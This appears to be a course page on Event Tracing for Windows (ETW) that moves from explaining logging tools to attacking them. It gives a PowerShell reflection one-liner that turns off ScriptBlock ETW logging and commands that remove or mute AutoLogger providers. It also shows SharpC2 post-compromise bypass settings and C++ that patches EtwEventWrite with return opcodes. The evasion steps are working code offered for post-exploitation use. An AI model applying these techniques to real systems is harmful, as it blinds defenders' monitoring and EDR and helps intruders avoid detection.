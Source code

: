 Prerequisite:

- Knowledge of low-level application programming.
- Knowledge of Windows architecture

# What is ETW ? 


ETW  (Event Tracing for Windows) ETW will allow you to monitor events on a programmed application by storing user or kernel events in logs. It is possible to view these logs later or in real time. ETW is an integral part of the Windows Performance Toolkit (WPT), WPT is what contains most of the monitoring tools on Windows. ETW is also used for EDR deployment.

When a ETW Session is opened to listen events, all the events are stored in a file called Event Trace Log (ETL)

ETW API .NET : https://www.nuget.org/packages/Microsoft.Windows.EventTracing.Processing.All

ETW uses WPA and WPR to manage and present the events in a clean way. WPA (Windows Performance Analyzer) will consult the ETL files produced by the active applications (Provider) of an ETW session to create graphs and tables, so that the rendering is clean.

WPR (Windows Performance Recorder) acts as a session controller, it will start and stop the session and can select the ETW events to be recorded. WPRP files can be created to create custom profiles, in order to start ETW sessions by following very precise events.


![](https://media.discordapp.net/attachments/713142876241920000/936061596755701780/unknown.png?width=838&height=609)


[Creating Recording Profiles | Microsoft Documents](https://docs.microsoft.com/en-us/windows-hardware/test/wpt/authoring-recording-profiles)
[WPT Getting Started | Microsoft Documents](https://docs.microsoft.com/en-us/windows-hardware/test/wpt/wpt-getting-started-portal)
[Event Tracing - Win32 apps | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/etw/event-tracing-portal)


### ETW Logman Enumeration :

Logman is a tool that allows windows users to see which ETW sessions are active as well as the providers of its logs.

Here you can see all active powershell providers like AMSI:

```powershell
PS> tasklist | findstr powershell
PS> logman query providers -pid <pid>
PS> logman query providers # here we will list all providers without exceptions
```
![](https://media.discordapp.net/attachments/713142876241920000/936061907746566234/unknown.png)

if you want to delete all active providers from the AutoLogger:
```powershell
PS> Remove-EtwTraceProvider -AutologgerName EventLog-Application -Guid {GUID}
```
An AutoLogger is a Trace Session that records provider events in kernel mode and user mode.

disable ETW (logging ScriptBlock) :
```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

to list all ETW sessions, run this command.
```powershell
PS> logman -ets
```

###### EVENT_ENABLE_PROPERTY_IGNORE_KEYWORD_0 :

```powershell
Set-EtwTraceProvider -Guid {GUID} -AutologgerName 'EventLog-Application' -Property 0x11
```

this allows not to display the events having the value KEYWORD 0

#### Attacks against ETW : 

different methods of attack against ETW :

![](https://media.discordapp.net/attachments/713142876241920000/936061629181861948/unknown.png?width=1319&height=609)

- __*red*__ : shows attacks on ETW from inside a malicious process.
- __*Light blue*__ : shows attacks on ETW by modifying environment variables, registry and files
- __*Orange*__ : shows attacks against ETW providers in user mode
- __*Dark blue*__ : shows attacks against ETW providers in kernel mode
- __*Violet*__ : shows attacks on ETW sessions.

The total number of possible attacks against ETW would be 36 but in this course we will only see the red, orange and light blue attacks.
Some offensive operations (Red Team) have used attack techniques against ETW, for example APT42 has disabled ETW, APT Slingshot has renamed ETLs to leave no trace and the lockerGoga ransomware has disabled ETW to bypass host-based sensors like HIDS, HIPS...


Some C2's have implemented ETW bypass functions, for example SharpC2 :
```apm
[drones] > interact a47153bd55 
[a47153bd55] > help 
Name           Description 
----           ----------- 
abort            Abort a running task 
back             Go back to the previous screen 
bypass           Set a directive to bypass AMSI/ETW on tasks 
cat              Read a file as text 
cd               Change working directory 
execute-assembly Execute a .NET assembly 
exit             Exit this Drone
```
once you have compromised the victim, you can interact with the drone, *bypass* Tells the drone whether or not it should attempt to bypass AMSI and/or ETW when executing post-exp commands. The drone uses the built-in MinHook.NET library to connect `amsi.dll!AmsiScanBuffer` and `ntdll.dll!EtwEventWrite`.

###### Post-Exploitation Custom C2Profile, Bypass AMSI/ETW :

SharpC2 uses C2 profiles to customize certain actions. Profiles are in YAML format and have 3 key/objects, Stage, PostExploitation and ProcessInjection.
```yaml
Stage: 
   SleepTime: 5 
   SleepJitter: 0 
   DllExport: Execute 
   SendStandardApi: true 
PostExploitation: 
   BypassAmsi: false 
   BypassEtw: false 
   SpawnTo: C:\Windows\System32\notepad.exe 
   AppDomain: SharpC2 
ProcessInjection: 
   Allocation: NtWriteVirtualMemory 
   Execution: RtlCreateUserThread
```

the **BypassAmsi/BypassEtw** values tell the drone whether or not it should attempt to bypass the AMSI and ETW during post-ex tasks.
can also be used at runtime with the bypass command.


###### ETW EtwEventWrite Patching :
![](https://media.discordapp.net/attachments/713142876241920000/936061204013649930/unknown.png)

we can do what we call Function patching with the RET instruction.

This code allows to disable the ETW event tracking in user-mode,
NTDLL is the most basic layer of User-Mode. NTDLL includes a large list of functions used for the proper functioning of Windows in different versions of microprocessor (x86, x64, wow64...). NTDLL includes the `EtwEventWrite` function.

The EtwEventWrite function is responsible for writing events to a session. Since *EtwEventWrite* works in user-mode, an attacker can bypass ETW. the function normally ends with `ret 0x14`.

since Event Tracking ends with `EtwEventWrite` to write events, if you rewrite the same assembly code at the beginning of the `EtwEventWrite()` function, no events will be recorded.

![](https://media.discordapp.net/attachments/713142876241920000/936061052997742634/unknown.png)

in this code above we get the address of the *EtwEventWrite* function from NTDLL and we modify the permissions of this memory segment with VirtualProtect() by defining the perms RWX (Read Write Exec)
and memcpy will be used to copy the opcode for a return to the buffer.


![](https://media.discordapp.net/attachments/713142876241920000/936061139421388810/unknown.png)

(64 bits)
you can see that the return value is `c3` (\xc3) and so `x48\x33\xc0` is the application of *XOR* on the *rax* register for all clear.


in the other opcode sequence (32 bits), `x33\xc0\xc2\x14\x00`, 
![](https://media.discordapp.net/attachments/713142876241920000/936062970167980053/unknown.png)

you can see that the return value is c21400 which is `xc2\x14\x0` for `ret 14h` and `x33\xc0` for *xor* the *EAX* register

we can also use the preprocessors `#ifdef`, `#else`, `#endif` if we want to adapt the opcode according to the versions.
```cpp
#ifdef _WIN64
        memcpy(addr, "\x48\x33\xc0\xc3", 4); // xor rax, rax; ret
#else
        memcpy(addr, "\x33\xc0\xc2\x14\x00", 5); // xor eax, eax; ret 14
#endif
```

results:

![](https://media.discordapp.net/attachments/713142876241920000/936060824869539950/unknown.png)
